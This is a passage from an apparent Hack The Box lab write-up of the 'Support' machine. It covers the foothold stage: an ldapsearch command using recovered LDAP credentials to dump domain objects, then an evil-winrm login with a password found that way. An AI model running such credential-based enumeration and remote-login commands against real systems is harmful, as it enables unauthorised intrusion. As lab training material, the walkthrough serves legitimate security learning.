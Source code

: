 ## Foothold
We now have the credentials to craft our own LDAP query based on the one seen in dnSpy.
`UserInfo.exe` query:
![](screenshots/Pasted%20image%2020220826222651.png)
Our query:
```bash
ldapsearch -x -H ldap://support.htb -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'DC=support,DC=htb'
```
This queries all objects in the domain `support.htb` and we find what appears to be a password for the user `support`.
![](screenshots/Pasted%20image%2020220826223055.png)
Lets login to WinRM using the credentials `support / Ironside47pleasure40Watchful`
```bash
evil-winrm -i 10.129.49.99 -u support -p Ironside47pleasure40Watchful
```
![](screenshots/Pasted%20image%2020220826223750.png)

---
[privilege-escalation](privilege-escalation.md)